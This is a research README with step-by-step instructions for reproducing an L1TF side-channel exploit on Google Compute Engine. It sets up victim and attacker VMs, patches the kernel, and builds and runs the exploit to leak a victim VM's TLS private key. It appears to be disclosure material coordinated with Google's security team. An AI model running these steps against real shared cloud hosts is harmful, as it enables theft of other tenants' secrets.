 ```
WARNING: The instruction below let you launch a cyber attack on the real-world cloud infrastructure of Google.
BEFORE YOU PROCEED: Ensure you are part of, or in agreement with, the Google security team handling this vulnerability.
Contact:
- m.c.hertogh at vu dot nl (VU Amsterdam, exploit author)
- aesa at google dot com (google security)
- evn at google dot com (google security)
```

# Setting up the VMs

Make sure you have a functioning Google Cloud account.

## Create Sole-Tenant Node
- In the Google Compute Engine overview webpage, go to "Sole-tenant nodes".
- Click "Create node group", and:
  - Pick some "region" and "zone";
  - Create (or pick) a node template with:
    - "Node type" = n1-node-96-624; (Note: if not listed; pick another region/zone)
    - Enable "CPU overcommit".
  - Keep "Autoscaling" = off;
  - Pick "Number of nodes" = 1;
  - Keep the default maintenance and share settings.

## Create Victim VM
- In the Google Compute Engine overview webpage, go to "Sole-tenant nodes".
- Pick (one of) your node group(s) based on a "n1-node-96-624" template.
- Click "create instance", and:
  - Set the "name", to e.g. `gce-victim`
  - Keep all other settings default, which means 2 vCPUs, 7.5 GB Memory, 10GB disk with Debian 12 Bookworm OS, etc.
  - "Create" the VM instance.
- Copy `setup/install_nginx_https.sh` script over to `gce-victim` and run it to install the Nginx webserver and configure it to HTTPS.
  The output should contain the private key of a newly generated, self-signed TSL certificate,
  and an example webpage containing "Welcome to nginx!".

## Create Attacker VM

Create the `gce-attacker` VM via the Google Cloud Console,
similar to the victim VM, except for making its disk bigger: 50GB.
(We need some space to compile the Linux kernel.)

Install standard packages, download the L1TF Reloaded repo, and install a custom kernel that speeds up L1TF on `gce-attacker`:
```
sudo apt install -y locales-all fakeroot git kernel-wedge quilt ccache flex bison libssl-dev dh-exec rsync libelf-dev bc libncurses-dev lz4 liblz4-dev tmux cmake libgmp3-dev python3-pycryptodome
git clone git@github.com:ThijsRay/l1tf_reloaded.git # TODO clean vusec repo
git clone git@github.com:torvalds/linux.git --branch v6.13 --depth 1
cd linux
git apply ../l1tf_reloaded/setup/l1tf-pf.patch
cp ../l1tf_reloaded/setup/kconfig .config
make -j2 bindeb-pkg
printf "\nGRUB_DISABLE_SUBMENU=y\n" | sudo tee -a /etc/default/grub
sudo dpkg -i ../linux-*.deb
```

Building the kernel takes almost 2 hours, so you might want to run it in the background in a tmux session.

Reboot the VM into the just installed `l1tf-pf` kernel (`sudo reboot`).
After reboot, ensure `uname -r` gives back `6.13.0-l1tf-pf+`.

If you want to run the exploit at scale, now would be a good moment to take a snapshot of the attacker VM,
such that you can spawn more instances of it, without the need for the two-hour long process above.

## The Exploit

Go into the `l1tf_reloaded` directory. Load the required dependencies and install the needed kernel modules:
```
make load_modules
```

Ensure `include/config.h` holds the following configuration:
```
#define MACHINE GCE
#define HELPERS 0
#define LEAK L1TF
```

Build the exploit:
```
make exploit
```

Run the exploit:
```
make
```

This will take many hours, hence we recommend running this inside a tmux session or similar.
Output of `stdout` will go to the screen as well as the file `std.out`, and extra
verbose `stderr` output is saved in the file `std.err`.

If all goes well, you expect to see something similar to our demo, resulting in a leaked private key.
To check its correctness, compare it against the true key of the victim's Nginx webserver,
located at `gce-victim:/etc/ssl/private/nginx-selfsigned.key`.
